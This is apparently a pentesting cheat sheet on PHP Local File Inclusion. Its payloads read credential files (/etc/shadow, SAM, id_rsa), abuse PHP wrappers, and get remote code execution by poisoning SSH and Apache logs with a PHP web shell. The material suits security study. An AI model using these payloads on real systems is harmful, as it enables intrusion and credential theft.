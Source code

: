 ## LFI Local File Inclusion
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP php://filter
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used /proc/self/status and /etc/passwd and try to access /<HOME>/.ssh/id_rsa.
### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/



















